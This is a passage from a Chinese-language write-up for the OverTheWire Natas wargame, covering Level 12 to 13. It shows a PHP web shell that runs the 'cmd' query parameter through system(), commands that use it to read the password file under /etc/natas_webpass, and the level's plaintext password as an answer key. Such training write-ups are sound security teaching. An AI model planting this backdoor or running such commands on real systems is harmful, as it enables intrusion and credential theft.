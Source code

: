 還記得我們剛剛的[惡意程式](#evil-code)嗎？

你仔細看這一行：

```php:line-numbers
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']); // [!code focus]
}
?>
```

這邊我們只要給予正確的 `GET` 後面的 `query param` ，就可以執行任意的系統命令。

這邊我們先試著利用以下 `query param` 放在網址後面看看：

```
?cmd=whoami
```

![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228235322.png)

確認可以出結果後，我們就直接來尋找我們要的密碼。

根據 Natas 的第一頁介紹，我們要的帳號密碼通常放在 `/etc/natas_webpass/` 裡面。

所以我們利用 `cat` 在檔案 `/etc/natas_webpass/natas13` 裡面查看我們要的密碼：

```
?cmd=cat /etc/natas_webpass/natas13
```

![](/articles/01_Wargames/00_OverTheWire/00_Natas/04_Level_12_To_Level_13/20240228235940.png)

找到答案啦～

### Thoughts

本題的小卡關點我相信就是在「檔案名稱」的部分。

畢竟這件事情是大家容易忽略的。

但是如果仔細閱讀[程式碼](#l12-php-source-code)你就會注意到在 line 28 有提到 `POST Request` 的 body 內要帶有 key `filename`，另外在 line 48 也有出現 name 為 `filename` 的 `<input>` element。

所以第一次忘記，回頭仔細檢查一下程式碼，應該就沒什麼問題了！

### Answer

::: details 答案
username: `natas13`

password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`
:::

---

## Level 13
